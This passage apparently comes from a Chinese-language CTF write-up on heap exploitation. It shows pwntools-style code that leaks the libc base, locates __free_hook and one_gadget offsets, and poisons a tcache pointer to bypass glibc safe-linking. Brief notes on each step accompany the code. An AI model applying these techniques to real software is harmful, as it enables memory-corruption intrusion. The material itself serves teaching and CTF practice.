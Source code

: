 ```bash
edit(7,'\x11')
show(7)
libc_base=u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))-0x1e3c11
leak('libc_base ',libc_base)
free_hook=libc_base+libc.sym['__free_hook']
leak('free_hook',free_hook)
ogs=[0xdf54c,0xdf54f,0xdf552] 
og=libc_base+ogs[1]
leak('og',og)
```

这里找清楚，libc 基地址是下面那个

[![](assets/1701612290-65ed18d9dc1fafe5edbe64b2f228013f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230714145623-8b5e92b8-2213-1.png)

```bash
pl=(heap_addr>>12)^(free_hook)
edit(6,p64(pl))
```

利用原理绕过 safe-linking

[![](assets/1701612290-d52a1271bd1cc67daebb4f599ffd779f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230714145641-95f37b3a-2213-1.png)
